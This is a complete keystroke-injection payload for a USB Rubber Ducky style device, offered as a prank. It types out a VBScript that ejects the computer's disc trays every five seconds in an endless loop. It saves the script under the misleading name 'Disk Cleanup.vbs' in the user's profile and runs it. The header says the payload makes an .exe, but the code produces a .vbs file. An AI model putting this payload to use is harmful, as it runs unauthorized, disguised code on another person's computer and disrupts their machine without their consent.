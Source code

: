 Author: Windy42
Description: This will make an .exe that will open the disk tray over and over again.
Note: I do not take all credit for writing this, the prank has been written many times I just converted it into a Payload.

GUI d
DELAY 300
GUI r
STRING notepad
ENTER
DELAY 100
STRING Set oWMP = CreateObject("WMPlayer.OCX.7")
ENTER
STRING Set colCDROMs = oWMP.cdromCollection
ENTER
STRING do
ENTER
STRING if colCDROMs >= 1 then
ENTER
STRING For i = 0 to colCDROMs.Count - 1
ENTER
STRING colCDROMs.Item(i).Eject
ENTER
STRING Next
ENTER
STRING End If
ENTER
STRING wscript.sleep 5000
ENTER
STRING loop
DELAY 200
CTRL s
DELAY 100
STRING %userprofile%\Disk Cleanup.vbs
ENTER
DELAY 200
ALT F4
DELAY 100
GUI d
DELAY 100
STRING Disk Cleanup.vbs
ENTER